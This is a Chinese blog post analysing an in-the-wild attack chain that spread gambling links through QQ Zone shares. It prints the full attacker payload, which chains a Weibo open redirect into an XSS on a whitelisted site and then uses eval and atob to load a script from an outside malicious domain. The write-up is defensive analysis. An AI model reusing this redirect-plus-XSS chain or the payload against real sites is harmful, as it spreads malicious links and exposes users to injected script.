




本文原发于先知社区 https://xz.aliyun.com/t/6238 , 博客转自本人仅做备份用途
写在之前
最近遇到多位老哥在骂,qq空间的链接一点就转发了一个封面为色情图片,内容为菠菜站的链接.我就好奇这难道是qq空间的XSS蠕虫?
BAT关键业务出了xss在9102年也不算小事情了,至少圈内会炸锅.但是一直没消息,直到我的好友也遭到了攻击.
好奇之下,抓了个包分析.发现这是个有趣的攻击链,至少我没见过这种攻击方式.由一系列漏洞组成.
中间一段时间忘了这事,前两天翻到给微博src提交的漏洞被打回.

最后一部分转发的截图和代码忘了保留,见谅.不过这也是一个有趣的绕过qq安全机制的案例.
(貌似之前看到过有人写过分析了,昨天去找的时候又没找到,于是我又自己分析了一遍)
分析
payload
1 | https%3A%2F%2Fweibo.cn%2Fsinaurl%3F_wv%3D1027%26cmd%3Dplay%26u%3Dhttps%253A%252F%252Fwww.whitedomin.com%252Fmember%252Findex.php%253Fgourl%253D%25252F%25252Fst.duanwenxue.com%25252Fpost-624.html%252522%25257d%252529%25257d%25252bwindow%25255b%252522eval%252522%25255d%252528atob%252528%252522ZG9jdW1lbnQud3JpdGUoIjxzY3JpcHQgc3JjPSdodHRwczovL2ltZy5kYWZlaWJsb2cuY29tL3dlYi9pZi5waHAnPjwvc2NyaXB0PiIp%252522%252529%252529%25252bfunction%252528%252529%25257b%2524.post%252528%25257b1%253A%252522%2526r%253D1561387991%2526business%253D%2523123 |
一步一步来分析.
微博任意url跳转
已经提交给微博并被驳回,因此公开应该没什么问题.
测试一下,将payload填到浏览器并用bp抓包,可以看到

follow redirection 302跳转到了某白名单网站的网站
某白名单网站self-xss
(虽然该漏洞已修复,但还是抹去相关信息)
qq空间的分析链接是有验证的,虽然不知道具体验证机制,但是大致可以猜到是白名单验证.微博显然在白名单内,而且如果是302跳转会迭代验证,直到非302响应状态码.
因此还需要个存在xss漏洞在白名单内的网站.
因此黑产找了一个存在get请求的self-xss的网站,并且通过js再次进行跳转绕过检测机制.

1 | https://www.whitedomin.com/member/index.php?gourl=%2F%2Fst.whitedomin.com%2Fpost-624.html%22%7d%29%7d%2bwindow%5b%22eval%22%5d%28atob%28%22ZG9jdW1lbnQud3JpdGUoIjxzY3JpcHQgc3JjPSdodHRwczovL2ltZy5kYWZlaWJsb2cuY29tL3dlYi9pZi5waHAnPjwvc2NyaXB0PiIp%22%29%29%2bfunction%28%29%7b$.post%28%7b1:%22&r=1561387991&business=#123 |
xss漏洞存在于该网站站内跳转的gourl参数,再次经过302跳转后同时指向了self-xss的js代码.
1 | "})}+window["eval"](atob("ZG9jdW1lbnQud3JpdGUoIjxzY3JpcHQgc3JjPSdodHRwczovL2ltZy5kYWZlaWJsb2cuY29tL3dlYi9pZi5waHAnPjwvc2NyaXB0PiIp"))+function(){$.post({1:"&r=1561387991&business=#123 |
base64解码:
document.write("<script src='https://img.dafeiblog.com/web/if.php'></script>")
可以看到,再次跳转向了第三方的网站,绕过了腾讯的检测机制.
恶意域名执行转发
(因为当时在hw,只抽了几分钟大致看了一下,以为保留了该页面的恶意js代码,后来找的时候发现并没有,抱歉)
(所以这一部分主要根据我的记忆以及猜想)
该恶意网站伪造了腾讯拦截页面.

因为腾讯的拦截页面并不显示url,所以普通用户很难发现是伪造的.
该页面下镶嵌有恶意js代码,只有30-40行,大致是两个XHR请求的函数.
猜测功能应该是跳转到博彩网站,以及请求腾讯空间转发接口.
这时候手机端按返回键回到qq空间,就会有个弹窗,提示是否转发.选择不转发还会跳出来,强行结束qq进程才能停止弹窗.
听说低qq版本或是低安卓版本没有这个提示框,会直接转发,(我并没有验证过)
小结
利用链是这样的:
微博任意url跳转 — 其他白名单内网站self-xss — 跳转至恶意网站执行恶意js
这种绕过方法算是self-xss的新用法,用作绕过某些存在分享内容安全检测的应用.(至少我没见过)
因为恶意网站js代码没有保存.因此并不知道是如何实现的qq空间转发功能以及无限循环转发弹窗.
因为过程中并没有传输用户相关信息,只能猜测是qq提供了转发的api以供第三方应用调用,导致被黑产利用.
可以参考下这两篇较早的文章,虽然利用思路完全不一样.